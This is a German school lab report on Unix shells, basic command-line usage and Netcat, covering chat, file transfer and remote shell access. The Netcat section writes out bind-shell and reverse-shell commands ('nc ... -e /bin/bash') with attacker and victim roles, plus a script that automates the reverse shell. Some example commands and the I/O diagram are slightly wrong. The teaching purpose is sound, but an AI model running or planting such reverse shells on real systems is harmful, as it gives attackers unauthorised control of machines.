


# **Titel: Shells**

| **AufgabenNr:** | 10 |
|---|:---|
| **Klasse:** | 3BHIF |
| **Name:** | Benjamin Friedl |
| **Gruppe:** | 2 |
| **Abgabetermin:** | 07.04.2024 |
| **Abgabedatum:** | 08.04.2024 |

## **Kurzbeschreibung:**

In diesem Protokoll wird auf die verschiedenen Shells und deren Funktionsweise eingegangen. Außerdem werden verschiedene Befehle und deren Verwendung erklärt. Abschließend wird auf das Tool Netcat eingegangen und dessen Verwendungsmöglichkeiten aufgezeigt.

---
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\

# Inhaltsverzeichnis

1. [Shells](#shells)
2. [Commands](#commands)
3. [Verketten von Befehlen](#verketten-von-befehlen)
4. [Netcat](#netcat)
    1. [Chat-Tool](#chat-tool)
    2. [File-Transfer-Tool](#file-transfer-tool)
    3. [Shellzugriff](#shellzugriff)
    4. [Netcat unter Windows](#netcat-unter-windows)
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\
\

----

# Shells

- sh: Bourne Shell -> älteste Shell
- Ksh: Korn Shell -> Weiterentwicklung von sh mit mehr Features
- csh: C-Shell -> von Bill Joy entwickelt -> Syntax ähnlich wie C
- bash: Bourne Again Shell -> Weiterentwicklung von sh
- zsh: Z-Shell -> Weiterentwicklung von bash -> viele Features wie Autovervollständigung, Rechtschreibkorrektur, Themes, etc.

```text
stdir                   -> stdout
-------> Process ---<
                        -> stdin
```

# Commands

- File ausgeben

```bash
cat /etc/passwd
```

- File ausgeben und in ein anderes File schreiben

```bash
cat /etc/passwd > /tmp/passwd
```

- File ausgeben und an ein anderes File anhängen

```bash
cat /etc/passwd >> /tmp/passwd
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root | wc -l
```

- File ausgeben und weiterleiten

```bash
cat /etc/passwd | grep root | wc -l > /tmp/root
```

- File erstellen mit Inhalt

```bash
echo "Hallo" > /tmp/hallo
```

\
\

- Directories anzeigen und sortieren

```bash
ls -l | sort
```

- oder auch umgekehrt:

```bash
sort < abc.txt
```

- Dateien suchen

```bash
find / -name passwd
```

- Dateien suchen und in ein anderes File schreiben

```bash
find / -name passwd > /tmp/passwd
```

- Change Pwd

```
sudo passwd
```

- User hinzufügen

```bash
sudo useradd -m -s /bin/bash benjamin
```

- watch on suid_cound

```bash
watch -n 1 "ls -l /bin/su" # -n 1 -> alle 1 Sekunden
```

- test (z.B. ob File lesbar ist)

```bash
test -r /etc/passwd
```

- return wert von letztem Befehl

```bash
echo $?
```

- datei ausführbar machen

```bash
chmod +x abc.sh
```

# Verketten von Befehlen

\

- abc.txt in def.txt schreiben (könnte auch mit copy gemacht werden)

```bash
cat < abc.txt > def.txt
```

# Netcat

- Netcat ist ein Tool, das Netzwerkverbindungen aufbauen kann
- Außerdem kann es für:
  - Chat-Tools
  - File-Transfer-Tools
  - Port-Scanning
  - Port-Forwarding
  - etc. verwendet werden

## Chat-Tool

### Aufbau

|  | **Server** | **Client** |
|---|---| --- |
| **Adresse** | `10.140.6.1` | `10.140.1.3` |
| **Port** | `3333` | `3333` |
\

- Client schickt Nachricht an Server

```bash
nc 10.140.6.1 3333 < "Hallo"
```



- Server schickt Nachricht an Client

```bash
nc -l 3333 > "Hallo"
```

### File-Transfer-Tool

- Client erstellt eine Datei "hello.txt"

```bash
echo "Hello" > hello.txt
```

- Client schickt File "abc.txt" an Server und bricht den Befehl manuell ab


```bash
nc 10.140.0.12 3333 < hello.txt
```

- Server empfängt File "abc.txt"

```bash
nc -l 3333 > hello.txt
```

## Shellzugriff

*Möglich über ssh, rsh, telnet, etc. -> aber auch über **Netcat** möglich*

- Victim startet Netcat und wartet auf Verbindung

```bash
nc -l 3333 -e /bin/bash
```

- Hacker verbindet sich mit Server

```bash
nc 10.140.0.12 3333
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**

### Nachteile für Hacker

- Interne IP-Adresse, NAT -> ohne Port-Forwarding nicht erreichbar
- Firewall -> blockt eingehende Verbindungen
- IDS -> erkennt Hacker-Aktivitäten und blockt Verbindungen
(IDS: Intrusion Detection System)

### Lösung: Victim verbindet sich mit Hacker (Reverse Shell)

- Hacker startet Netcat und wartet auf Verbindung

```bash
nc -l 3333
```

- Victim verbindet sich mit Hacker

```bash
nc 10.140.0.3 3333 -e /bin/bash
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**
- Optimierung: sh script

```bash
#!/bin/bash
nc 10.140.0.3 3333 -e /bin/bash
```

## Netcat unter Windows

- Netcat ist auch unter Windows verfügbar aber nicht standardmäßig installiert
- Download: <https://eternallybored.org/misc/netcat/>
- Installation: `nc.exe` in `C:\Windows\System32` kopieren
- Es gibt auch eine GUI-Version von Netcat: <https://sourceforge.net/projects/nc110/>
- GUI-Version ist einfacher zu bedienen, aber weniger flexibel
- GUI-Version kann auch für Port-Scanning, Port-Forwarding, etc. verwendet werden
